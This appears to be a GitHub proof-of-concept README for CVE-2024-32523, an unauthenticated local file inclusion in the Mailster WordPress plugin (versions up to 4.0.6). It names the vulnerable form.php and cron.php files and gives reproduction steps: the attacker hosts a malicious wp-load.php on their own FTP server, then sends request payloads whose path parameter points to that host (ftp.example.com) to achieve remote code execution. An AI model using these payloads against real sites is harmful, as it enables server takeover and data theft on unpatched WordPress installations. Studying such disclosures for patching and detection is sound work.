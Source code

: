 # CVE-2024-32523-Poc
CVE-2024-32523: Mailster <= 4.0.6 - Unauthenticated Local File Inclusion

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/mailster-2/mailster-406-unauthenticated-local-file-inclusion

File: https://github.com/truonghuuphuc/CVE-2024-32523-Poc/blob/main/mailster.zip

Description

The Mailster - Email Newsletter Plugin for WordPress plugin for WordPress is vulnerable to Local File Inclusion in all versions up to, and including, 4.0.6. This makes it possible for unauthenticated attackers to include and execute arbitrary files on the server, allowing the execution of any PHP code in those files. This can be used to bypass access controls, obtain sensitive data, or achieve code execution in cases where images and other “safe” file types can be uploaded and included.

File Vulnerable: form.php and cron.php
![image](https://github.com/truonghuuphuc/CVE-2024-32523-Poc/assets/20487674/c0f8e0a5-da49-414d-ab05-7d653fa4741c)
![image](https://github.com/truonghuuphuc/CVE-2024-32523-Poc/assets/20487674/79842e31-6b84-4778-a4a5-0e762904c37a)

function is_dir and file_exists support ftp://

https://www.php.net/manual/en/function.is-dir.php#123573

http://man.hubwiz.com/docset/PHP.docset/Contents/Resources/Documents/php.net/manual/en/function.file-exists.html

Steps to Reproduce:

Require server victim php.ini config FTP and allow_url_include	On 

![image](https://github.com/truonghuuphuc/CVE-2024-32523-Poc/assets/20487674/3cb438da-db90-4d65-bd28-7c1e33b9cb9d)

![image](https://github.com/truonghuuphuc/CVE-2024-32523-Poc/assets/20487674/7d897d59-e7fb-47a1-a949-2119a48632b4)

1. Attacker create file wp-load.php on ftp server attacker
2. Send payload:

<Host>/wp-content/plugins/mailster/form.php?path=ftp://username:password@ftp.example.com/

<Host>/wp-content/plugins/mailster/cron.php?path=ftp://username:password@ftp.example.com/

Poc RCE:

https://github.com/truonghuuphuc/CVE-2024-32523-Poc/assets/20487674/952aa57f-aa57-43b7-8704-0609cffec783
